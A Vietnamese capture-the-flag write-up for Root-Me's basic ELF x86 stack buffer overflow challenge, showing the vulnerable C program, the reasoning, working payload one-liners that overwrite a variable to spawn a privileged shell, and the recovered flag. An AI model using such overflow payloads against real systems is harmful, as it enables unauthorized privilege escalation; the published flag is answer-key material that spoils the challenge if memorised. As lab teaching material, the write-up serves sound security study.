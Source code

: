 # Co-che-hoat-dong-cua-ma-doc - challenge 1 CTF Write up
```html
ELF x86 - Stack buffer overflow basic 1 :  ssh -p 2222 app-systeme-ch13@challenge02.root-me.org
```
![image](https://user-images.githubusercontent.com/64201705/119267106-82396000-bc17-11eb-9fd0-b01bcdd084cc.png)

## Write up

```Text
Sau khi SSH vào server thì ta dùng lệnh cat để in code trong file source code ra
```
Ta sẽ được như này:

```C
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
Rõ ràng ta thấy để vào được shell bằng câu lệnh:
```C 
system("/bin/bash"); 
``` 
thì ta cần biến check có giá trị là 0xdeadbeef, mặt khác ở hai câu lệnh 
```C   
printf("\n[buf]: %s\n", buf);
printf("[check] %p\n", check); 
``` 
ta thấy chương trình sẽ in ra hai giá trị của buf và check, cho nên ta sẽ nghĩ tới việc ghi đè giá trị buf qua giá trị check ở trong bộ nhớ.
Mặt khác, vì biến buf được cấp bộ nhớ là 40 bytes cho nên trước hết ta sẽ ghi đầy 40 bytes này, sau đó ghi tiếp các bytes khác, các bytes này sẽ tiếp tục ghi lấn tới và ghi đè lên vùng nhớ của biến check, ta thử in 40 kí tự A và thêm 4 kí tự LDLD vào thì ta thấy biến buf và check có giá trị như sau:
```Bash
app-systeme-ch13@challenge02:~$ python -c "print 'A'*40 + 'LDLD'" | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD
[check] 0x4c444c44

You are on the right way!
```
![image](https://user-images.githubusercontent.com/64201705/119267147-9c733e00-bc17-11eb-8abe-3a7c3ac480da.png)

Như kết quả in ra ta thấy biến check nhận giá trị là 0x4c444c44 ~ LDLD (hex -> text). Do đó để biến check nhận giá trị là 0xdeadbeef, ta sẽ thay đổi câu lệnh thành:
```Bash
app-systeme-ch13@challenge02:~$ python -c "print 'A'*40 + '\xef\xbe\xad\xde'" | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
Shell closed! Bye.
``` 
Như trên, ta thấy đã chạy được lệnh để gọi shell nhưng chưa thể vào shell và giữ shell hoạt động, ta cần chỉnh lại một chút về câu lệnh bash phía trên thành:
```Bash
app-systeme-ch13@challenge02:~$ cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13
```
Dấu - ở giữa cat và | sẽ giữ cho shell hoạt động và không bị tắt
```Bash
app-systeme-ch13@challenge02:~$ cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
id
uid=1213(app-systeme-ch13-cracked) gid=1113(app-systeme-ch13) groups=1113(app-systeme-ch13),100(users)
cat .passwd
1w4ntm0r3pr0np1s
```
Vậy flag hay password ở đây là:
## 1w4ntm0r3pr0np1s

